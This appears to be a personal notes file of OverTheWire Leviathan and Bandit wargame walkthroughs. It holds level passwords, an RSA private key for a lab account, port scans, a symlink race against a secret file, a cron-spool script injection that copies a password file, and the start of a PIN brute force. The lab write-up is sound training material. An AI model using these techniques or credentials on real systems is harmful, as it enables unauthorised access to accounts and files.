  ln -sf "$GOOD" "$LINK"
  ln -sf "$SECRET" "$LINK"
done

# wait for the target to finish and print exit status
wait "$TARGET_PID"
echo "target exited with $?"
#+end_example


#+begin_example
leviathan2@leviathan:~$ /tmp/chaves.sh
f0n8h2iWLP
target exited with 0
#+end_example

***** Correct program design (how this should be prevented)

A secure program that needs to both check a user’s rights and open/use a file under another UID must avoid TOCTOU by not using separate pathname checks. Secure patterns include:

Open then verify using the opened descriptor

fd = open(path, O_RDONLY|O_NOFOLLOW);

fstat(fd, &st); Verify ownership/permissions on fd (not on path). Use fchmod/fchown/check st fields as needed. Because operations act on the already-opened descriptor, the target cannot be swapped by a symlink after open.

Use file-descriptor-based operations instead of re-resolving the pathname later (fexecve / run with fd or read from fd directly). That prevents lookup at time-of-use.

Avoid access() for security checks, because it checks current real/effective permissions against the filename and is vulnerable to TOCTOU. If the program needs to verify permissions, open the file (with the minimum privileges) and operate on the returned descriptor.

Drop privileges safely: if the program must switch to EUID to read something privileged, handle UID transitions carefully:

Temporarily set effective UID to the one that should do the check, open/lock the file descriptor, then set EUID to the other identity and use the already-open FD.

Use O_NOFOLLOW to prevent symlink abuse where appropriate.

Use kernel-level protections if available: openat2() with RESOLVE_NO_SYMLINKS (newer kernels) or seccomp / file capabilities to narrow attack surface.

In short: do the check and the use on the same resolved kernel object (the same FD), and do not re-resolve the pathname.

*** 3

f0n8h2iWLP

*** Seinfeld Checkmark

[[file:images/2025-10-13_seinfeld.jpeg]]

** Bandit

*** 0
ZjLjTmM6FvvyRnrb2rfNWOZOTa6ip5If

*** 1
263JGJPfgU6LtdEvgfWU1XP5yac29mFx

*** 2
MNk8KNH3Usiio41PRUEoDFPqfxLPlSmx

*** 3
2WmrDFRmJIq3IPxneAaMGhap0pFhF3NJ

*** 4
4oQYVPkxZOOEOO5pTW81FB8j8lxXGUQw

*** 5
Preciso achar um arquivo:
- human-readable
- 1033 bytes in size
- not executable


Será que o comando ~find~ dá isso?

#+begin_src bash :noweb no
find . -type f -size 1033c -exec cat {} +
#+end_src

HWasnPhtq9AVKe0dmk45nxy20cvUa6EG

*** 6

file that:

    - owned by user bandit7
    - owned by group bandit6
    - 33 bytes in size

#+begin_src shell :noweb no
find / 2>/dev/null -user bandit7 -group bandit6 -size 33c -exec cat {} \;
#+end_src

morbNTDkSW6jIlUc0ymOdMaLnOlFVAaj

*** 7

dfwvzFQi4mU0wfNbFOe9RoWskMLg7eEc

*** 8
4CKMh1JI91bUIZZPXDqGanal4xvAg0JM

*** 9

~strings data.txt~

FGUW5ilLVJrxX9kMYMmlN4MgbpfMiqey

*** 10

Nesse tem uma string codificada em base64.

#+begin_src shell :noweb no
base64 -d data.txt
#+end_src

dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

*** 11

Nesse rotacionaram as letras em 13 posições.

Essa é uma cifra conhecida já, a tal da ROT13.
26 letras no falnalabeto: f == f^{-1}.
ROT13 é sua própria inversa.

#+begin_src shell :noweb no
tr 'A-Za-z' 'N-ZA-Mn-za-m' < data.txt
#+end_src

7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4

*** 12

Agora brotou um hexdump em plain text.
They tell it's a file that was compressed multiple times.

I need to get the file that generated that hexdump.
This can be done with:

#+begin_src shell :noweb no
xxd -r data.txt
#+end_src

Aí foi uma cascata de uncompressing in several formats (bz2, gz, tar).

FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

*** 13

#+begin_quote
The password for the next level is stored in /etc/bandit_pass/bandit14 and can only be read by user bandit14.

For this level, you don’t get the next password, but you get a private SSH key that can be used to log into the next level.

Note: localhost is a hostname that refers to the machine you are working on
#+end_quote

1. I copied the contents of the bandit14's private key that was in the home directory.
2. Then I renamed it to ~id_rsa~.
3. Then

#+begin_src shell :noweb no
ssh bandit.labs.overthewire.org -p 2220 -i ~/.ssh/id_rsa_overthewire.org-bandit14-private-key -l bandit14
#+end_src

*** 14

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30000 on localhost.
#+end_quote

I got the pass from the folder mentioned in the previous Bandit:
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

I want to send that string (those bytes) to localhost on port 30000.

After readin man telnet.

#+begin_src shell :noweb no
telnet localhost 30000
#+end_src

This opens a connection, and I can input text.
I typed the password, ENTER, and voilà:

8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

*** 15

#+begin_quote
The password for the next level can be retrieved by submitting the password of the current level to port 30001 on localhost using SSL/TLS encryption.
#+end_quote

I connected to the server/port using ~openssl~.
It's the same procedure as the telnet, but Secure®.

#+begin_src shell :noweb no
openssl s_client -crlf -connect localhost:30001
#+end_src

kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

*** 16

#+begin_quote
The credentials for the next level can be retrieved by submitting the password of the current level to a port on localhost in the range 31000 to 32000.
First find out which of these ports have a server listening on them.
Then find out which of those speak SSL/TLS and which don’t.
There is only 1 server that will give the next credentials, the others will simply send back to you whatever you send to it.
#+end_quote

#+begin_example
bandit16@bandit:~$ nmap -p 31000-32000 localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 00:02 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00010s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE SERVICE
31046/tcp open  unknown
31518/tcp open  unknown
31691/tcp open  unknown
31790/tcp open  unknown
31960/tcp open  unknown
#+end_example

#+begin_src shell :noweb no
for p in 31046 31518 31691 31790 31960; do openssl s_client -crlf -connect localhost:$p; done;
#+end_src

Testing connection:

| 31046 | Secure  Renegotiation  IS  NOT  supported |
| 31518 |                                           |
| 31691 |                                           |
| 31790 |                                           |
| 31960 |                                           |

I was having a problem:

#+begin_example
    Extended master secret: no
    Max Early Data: 0
---
read R BLOCK
kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx    <---- sent the current passwor
KEYUPDATE                           <---- received this message
#+end_example

This happened because the sent data started with a *k*, that has a meaning in the /interactive/ session.

[[https://stackoverflow.com/a/58574851][This answer on Stackoverflow]] suggests to avoid using the interactive session with ~ign_eof~:

#+begin_src shell :noweb no
for p in 31046 31518 31691 31790 31960; do openssl s_client -ign_eof -crlf -connect localhost:$p; done;
#+end_src

The correct one was:

#+begin_src shell :noweb no
openssl s_client -ign_eof -crlf -connect localhost:31790
#+end_src

Got a private key :)

#+begin_src id_rsa :noweb no
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell :noweb no
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit17
#+end_src

#+RESULTS:

*** 17

x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

Got the 'Byebye'.

Checking out the next Bandit, as instructed.
*** 18

I was being automatically disconnected from the server because there was a directive in ~.bashrc~ for that:

#+begin_quote
someone has modified .bashrc to log you out when you log in with SSH.
#+end_quote

Then I found out that I can run a command via SSH, and that it may run before Bash did his stuff:

#+begin_quote
When you connect via SSH and specify a command to execute directly (e.g., ssh user@host "ls -l"), a non-interactive shell is often used, and your ~/.bashrc or ~/.profile might not be fully sourced, depending on the shell and the command.
#+end_quote

I did this (intructions told about ~readme~):

#+begin_src shell :noweb no
ssh bandit.labs.overthewire.org -p 2220 -l bandit18 "cat readme"
#+end_src

cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

**** 19

A princípio fiquei confuso.
Achei que o programa iria /modificar/ o proprietário do arquivo com a senha.

Quando rodei o comando para saber o que fazer (conforme instruído), recebi a seguinte saída:

#+begin_src shell :noweb no
bandit19@bandit:~$ ./bandit20-do
Run a command as another user.
  Example: ./bandit20-do id
#+end_src

Eu não li a primeira linha da saída e achei que tinha que descobrir o meu ~id~ numérico do user ~bandit19~, pra daí usar o comando para setar esse usuário como proprietário do arquivo com a senha.

Depois eu acabei rodando o comando de novo e li a primeira linha.
Daí rodei:

#+begin_src shell :noweb no
bandit19@bandit:/etc/bandit_pass$ ~/bandit20-do cat bandit20
#+end_src

e obtive a senha:

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

O executável ~bandit20-do~ foi setado com o user bandit20 e o meu grupo.

#+begin_src shell :noweb no
bandit19@bandit:~$ stat bandit20-do
  File: bandit20-do
  Size: 14884           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577828      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11020/bandit20)   Gid: (11019/bandit19)
                           ^^^         ^^^^^^^^    ^^^         ^^^^^^^^
Access: 2025-10-10 17:14:19.958793247 +0000
Modify: 2025-08-15 13:16:01.732011756 +0000
Change: 2025-08-15 13:16:01.734011763 +0000
 Birth: 2025-08-15 13:16:01.731011751 +0000
#+end_src

Como eu faço parte do grupo do arquivo, eu posso executá-lo e como ele é do 20, eu posso ler o arquivo da próxima senha, que é dele.
*** 20

0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

#+begin_quote
There is a setuid binary in the homedirectory that does the following:
#+end_quote

The "setuid binary" is ~suconnect~:

#+begin_example
bandit20@bandit:~$ ls -lah
total 36K
drwxr-xr-x   2 root     root     4.0K Aug 15 13:16 .
drwxr-xr-x 150 root     root     4.0K Aug 15 13:18 ..
-rw-r--r--   1 root     root      220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root     3.8K Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root      807 Mar 31  2024 .profile
-rwsr-x---   1 bandit21 bandit20  16K Aug 15 13:16 suconnect

bandit20@bandit:~$ stat suconnect
  File: suconnect
  Size: 15608           Blocks: 32         IO Block: 4096   regular file
Device: 259,1   Inode: 577830      Links: 1
Access: (4750/-rwsr-x---)  Uid: (11021/bandit21)   Gid: (11020/bandit20)
Access: 2025-10-10 17:04:06.585772107 +0000
Modify: 2025-08-15 13:16:02.922063839 +0000
Change: 2025-08-15 13:16:02.923016449 +0000
 Birth: 2025-08-15 13:16:02.921016442 +0000
#+end_example

#+begin_quote
- it makes a connection to localhost on the port you specify as a commandline argument.
- It then reads a line of text from the connection and compares it to the password in the previous level (bandit20).
- If the password is correct, it will transmit the password for the next level (bandit21).
#+end_quote

Now, I am not sure if it
1. /connects/ to an existing connection.
2. /creates/ a new connection, or if it just

Let us try first to connect to an existing connection.
We get a list of the ports---the "simple" way:

#+begin_example
bandit20@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:21 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

For the bandit19 user is the same:

#+begin_example
bandit19@bandit:~$ nmap localhost
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 16:18 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
1111/tcp  open  lmsocialserver
1840/tcp  open  netopia-vo2
4321/tcp  open  rwhois
8000/tcp  open  http-alt
30000/tcp open  ndmps
50001/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
#+end_example

I tried connecting both ~suconnect~ and ~telnet~ to port 1111 (has "social" in the name); suconnect with '&'; and then send the password through telnet.
I expect to receive an answer from suconnect, because it is in the same "chat".

#+begin_src shell :noweb no
telnet 1111 &
telnet 1111
Hello, there!
#+end_src

I didn't get the message to be echoed on the screen, as I expected.
It says something like "job /stopped/"; I wonder if I need to keep it running in the background.

Let's try a different port: 30000.

#+begin_src shell :noweb no
bandit20@bandit:~$ ./suconnect 30000 &
[1] 69995
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Wrong! Please enter the correct current password.
Connection closed by foreign host.
#+end_src

I believe this is the same guy from a previous Bandit.
Let's test it.
That Bandit is 14.
Let's re-run it:

#+begin_src shell :noweb no
bandit20@bandit:~$ telnet localhost 30000
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS
Correct!
8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

Connection closed by foreign host.
#+end_src

Yep!
It is the same, and it works for the user bandit20 too.

Apparently, two processes cannot listen to the same port (usually).
I'll try running suconnect as a daemon, and telnet as a Client.
I need a port.

These are all the ports available:

|          | bandit20@bandit:~$ nmap -p 0-65535 localhost                       |
|          | Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-11 17:37 UTC |
|          | Nmap scan report for localhost (127.0.0.1)                         |
|          | Host is up (0.000097s latency).                                    |
|          | Not shown: 65506 closed tcp ports (conn-refused)                   |
| WORKS?   | PORT      STATE SERVICE                                            |
|          | 22/tcp    open  ssh                                                |
|          | 1111/tcp  open  lmsocialserver                                     |
|          | 1840/tcp  open  netopia-vo2                                        |
|          | 2220/tcp  open  netiq                                              |
|          | 2221/tcp  open  rockwell-csp1                                      |
|          | 2223/tcp  open  rockwell-csp2                                      |
|          | 2224/tcp  open  efi-mg                                             |
|          | 2225/tcp  open  rcip-itu                                           |
|          | 2226/tcp  open  di-drm                                             |
|          | 2227/tcp  open  di-msg                                             |
|          | 2228/tcp  open  ehome-ms                                           |
|          | 2230/tcp  open  queueadm                                           |
|          | 2231/tcp  open  wimaxasncp                                         |
|          | 2232/tcp  open  ivs-video                                          |
|          | 4091/tcp  open  ewinstaller                                        |
|          | 4258/tcp  open  vrml-multi-use                                     |
|          | 4321/tcp  open  rwhois                                             |
|          | 5842/tcp  open  reversion                                          |
|          | 8000/tcp  open  http-alt                                           |
| bandit14 | 30000/tcp open  ndmps                                              |
| n        | 30001/tcp open  pago-services1                                     |
| bandit25 | 30002/tcp open  pago-services2                                     |
|          | 31046/tcp open  unknown                                            |
|          | 31518/tcp open  unknown                                            |
|          | 31691/tcp open  unknown                                            |
|          | 31790/tcp open  unknown                                            |
|          | 31960/tcp open  unknown                                            |
|          | 50001/tcp open  unknown                                            |
|          | 51790/tcp open  unknown                                            |
|          | 60917/tcp open  unknown                                            |

Given that bandit15 uses port 30000, and bandit25 uses port 30002, I bet the port I need for this Bandit is 30001.

I tried first running succonect on the background and sending the password via nc.
But it closes the connection.

#+begin_example
bandit20@bandit:~$ ./suconnect 30001 &
[1] 290352

bandit20@bandit:~$ nc localhost 30001
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
bandit20@bandit:~$                       <--- It closes the connection
#+end_example

I tried using ~screen~ to run the daemon, and another session to connect to it.

I created a dedicated session for ~suconnect~:

#+begin_src shell :noweb no
screen -S suconnect
#+end_src

Then I started the ~suconnect~ daemon.

#+begin_src shell :noweb no
./suconnect 30001
#+end_src

Then I detached the screen session with ~C-a d~.

Then I connected and sent the password using ~nc~.

#+begin_src shell :noweb no
nc localhost 30001
#+end_src

I was disconnected, as expected.

Then I reattached to the ~screen~ running ~suconnect~ with

#+begin_src shell :noweb no
screen -x suconnect
#+end_src

I expected to see the next password as the output there, but there was no output.

Future me: up until now, I had tried:
- ~suconnect~ as the daemon
  - using already opened ports

| Daemon    | Open new port | Use existing port |
|-----------+---------------+-------------------|
| suconnect |               | Doesn't work      |
| nc        |               |                   |

I tried connecting with ~suconnect~ to every port in the interval 0--65535.
It connected to some, but I couldn't tell if it was connecting to an open port or opening a new port.

Then I came across [[https://stackoverflow.com/a/79726454][this answer on Stackoverflow]] that teaches hot to solve it.
According to this answer, ~nc~ will be the daemon, and ~suconnect~ will be the client.
The answer instructs to use the parameters ~-lnvp~ for ~nc~.

I first tried to use port 30001.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30001
nc: Address already in use
#+end_example

Then I tried a port not reported by ~nmap~ above.

#+begin_example
bandit20@bandit:~$ nc -lnvp 30003
Listening on 0.0.0.0 30003
#+end_example

Then I dettached and attached to ~suconnect~'s ~screen~.
I started ~suconnect~ there using the same port.

#+begin_src shell :noweb no
./suconnect 30003
#+end_src

No output.

Back on ~nc~'s screen, I got the message of a received connection, probably from ~suconnect~.

#+begin_example
Connection received on 127.0.0.1 54356
#+end_example

I then sent the current password, and got the next one as a reply.

#+begin_example
0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
#+end_example

Back on ~suconnect~'s ~screen~:

#+begin_example
Read: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
Password matches, sending next password
#+end_example

After reading this from ~man lc~:

#+begin_example
-l      Listen for an incoming connection rather than initiating a con‐
        nection to a remote host.  The destination and port to listen on
        can be specified either as non-optional arguments, or with op‐
        tions -s and -p respectively.  Cannot be used together with -x or
        -z.  Additionally, any timeouts specified with the -w option are
        ignored.
#+end_example

I tried with just ~nc -l~, and it worked the same.

I also tried still using ~nc~ as the daemon, but without any parameter.

#+begin_example
bandit20@bandit:~$ nc 30003
nc: missing port number
#+end_example

Then with the host.

#+begin_example
bandit20@bandit:~$ nc localhost 30003
bandit20@bandit:~$
#+end_example

Apparently it did not create a connection.
I still tried starting ~suconnect~.

#+begin_example
bandit20@bandit:~$ ./suconnect 30003
Could not connect
#+end_example

This shows that it needs the ~-l~ parameter.

I looked at the manpage for the meaning of the ~nvp~ parameters.

#+begin_example
-n      Do not perform domain name resolution.  If a name cannot be re‐
        solved without DNS, an error will be reported.
#+end_example

I don't see why this would affect the command, as no host was used.

#+begin_example
-v      Produce more verbose output.
#+end_example

Non-essential.

#+begin_example
-p source_port
        Specify the source port nc should use, subject to privilege re‐
        strictions and availability.
#+end_example

Why does it work witout specifying 30003 as a /port/ with ~p~?
The only mandatory parameter so far is ~l~, which needs a destination and port.

From the manpage:

#+begin_example
In general, a destination must be specified, unless the -l option is given (in which case the local host is used).
#+end_example

Now, the only mandatory parameter is the port, so there is no reason to make ~-p~ mandatory.

EeoULMCra2q0dSkYj561DX7s1CpBuOBt
*** 21

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.
#+end_quote

The files in ~/etc/cron.d/~ are:

#+begin_example
bandit21@bandit:/etc/cron.d$ ls -lah
total 60K
drwxr-xr-x   2 root root 4.0K Aug 15 13:19 .
drwxr-xr-x 128 root root  12K Aug 29 21:51 ..
-r--r-----   1 root root   47 Aug 15 13:16 behemoth4_cleanup
-rw-r--r--   1 root root  123 Aug 15 13:09 clean_tmp
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit22
-rw-r--r--   1 root root  122 Aug 15 13:16 cronjob_bandit23
-rw-r--r--   1 root root  120 Aug 15 13:16 cronjob_bandit24
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-r--r-----   1 root root   48 Aug 15 13:17 leviathan5_cleanup
-rw-------   1 root root  138 Aug 15 13:17 manpage3_resetpw_job
-rwx------   1 root root   52 Aug 15 13:19 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 31  2024 .placeholder
-rw-r--r--   1 root root  396 Jan  9  2024 sysstat
#+end_example

To get the file contents I used ~cat~:

#+begin_example
bandit21@bandit:/etc/cron.d$ find . -exec echo {} \; -exec cat {} \; -exec echo "" \;
#+end_example

This guy is the most suspicious one.

#+begin_example
./sysstat
# The first element of the path is a directory where the debian-sa1
# script is located
PATH=/usr/lib/sysstat:/usr/sbin:/usr/sbin:/usr/bin:/sbin:/bin

# Activity reports every 10 minutes everyday
5-55/10 * * * * root command -v debian-sa1 > /dev/null && debian-sa1 1 1

# Additional run at 23:59 to rotate the statistics file
59 23 * * * root command -v debian-sa1 > /dev/null && debian-sa1 60 2
#+end_example

#+begin_quote
# The first element of the path is a directory where the debian-sa1
# script is located
#+end_quote

The contents of "the first element of the path", ~/usr/lib/sysstat/~, are:

#+begin_example
bandit21@bandit:/usr/lib/sysstat$ alias ls='ls -lah'
bandit21@bandit:/usr/lib/sysstat$ ls
total 104K
drwxr-xr-x  2 root root 4.0K Jul 31 10:05 .
drwxr-xr-x 86 root root 4.0K Aug 15 13:10 ..
-rwxr-xr-x  1 root root  446 Jan  9  2024 debian-sa1
-rwxr-xr-x  1 root root 1.8K Jan  9  2024 sa1
-rwxr-xr-x  1 root root 1.6K Jan  9  2024 sa2
-rwxr-xr-x  1 root root  82K Jan  9  2024 sadc
#+end_example

It didn't take anywhere interesting.

After some fiddling around:

#+begin_example
bandit21@bandit:~$ cat /cat /usr/bin/cronjob_bandit22.sh
cat: /cat: No such file or directory
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#+end_example

The passwords are in those ~/etc/bandit_pass/banditXX~ files.
This cron job is copying the password I need, ~bandit22~'s, to a temp file.
To see it, I did:

#+begin_example
bandit21@bandit:~$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
#+end_example

and voilà:

tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
*** 22

#+begin_quote
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.
#+end_quote

The contents of ~/etc/cron.d/~ should be the same.
I'll start by investigating ~bandit22~'s script.
This is the job for the bandit:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
​* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
#+end_example

and this is the contents of that script:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat  /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
#+end_example

It uses the username ~bandit24~ (that would be gotten from ~whoami~) to create a target filename in a somewhat sophisticated process involving ~mdsum~.

I simulate the results of that command to get the script's real target:

#+begin_example
bandit22@bandit:/etc/cron.d$ myname=bandit23; mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
bandit22@bandit:/etc/cron.d$ echo $mytarget
8ca319486bfbbc3663ea0fbe81326349
#+end_example

Then I use that to ~cat~ the password from that target file:

#+begin_example
bandit22@bandit:/etc/cron.d$ cat /tmp/$mytarget
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
#+end_example

Password obtained.

0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
*** 23

#+begin_example
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script.
This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
#+end_example

I go straight to ~bandit24~'s script:

#+begin_example
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
----------------------------------------------------------------------
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
#+end_example

I analyze it piece by piece:

#+begin_example
myname=$(whoami)
#+end_example

Sets ~myname~ to ~bandit24~.

#+begin_example
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        <<process each file>>
    fi
done
#+end_example

It processes each file in ~/var/spool/bandit24/foo~.
I tried reading the contents of that directory, but got ~Permission denied.~

The processing of each file occurs as follows:

~<<process each file>> +≡~

#+begin_src x :noweb-ref process each file :noweb no
echo "Handling $i"
owner="$(stat --format "%U" ./$i)"
if [ "${owner}" = "bandit23" ]; then
    timeout -s 9 60 ./$i
fi
rm -f ./$i
#+end_src

It runs /my/ scripts inside ~/var/spool/bandit24/foo~.
I will try to inject a script there that somehow gives me ~bandit24~'s password.

#+begin_src shell :noweb no
#!/bin/bash
MY_PASS_FILE=/etc/bandit_pass/bandit24
TARGET=zoiaum

cat ${MY_PASS_FILE} > ${TARGET}
cp ${TARGET} /tmp
#+end_src

I created a file ~/tmp/zoinho.sh~, ~chmod +x~ it, and copied it to ~/var/spool/bandit24/foo~.
Then after typing this, I went to check if I got the password.

#+begin_example
bandit23@bandit:/tmp$ cat zoiaum
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
#+end_example

That file was created by ~bandit24~, and I was curious /why/ I have permission to /read/ it.
I ran a ~stat~ on it:

#+begin_example
bandit23@bandit:/tmp$ stat zoiaum
  File: zoiaum
  Size: 33              Blocks: 8          IO Block: 4096   regular file
Device: 259,1   Inode: 87017       Links: 1
Access: (0664/-rw-rw-r--)  Uid: (11024/bandit24)   Gid: (11024/bandit24)
Access: 2025-10-11 21:55:30.532352401 +0000
Modify: 2025-10-11 21:55:01.567169570 +0000
Change: 2025-10-11 21:55:01.567169570 +0000
 Birth: 2025-10-11 21:55:01.565351402 +0000
#+end_example

I can see that, the file was created with read permission for everybody, and that is why I am allowed to read it.

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
*** 24

#+begin_quote
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
#+end_quote

I try first to connect with ~nc~ to port 30002.

#+begin_quote
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
#+end_quote

Ok, separate password and pincode by a space.

I go to the manpage for ideas on how to bruteforce it without creating new connections each time.

#+begin_example
nc localhost 30002 << EOF
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
EOF
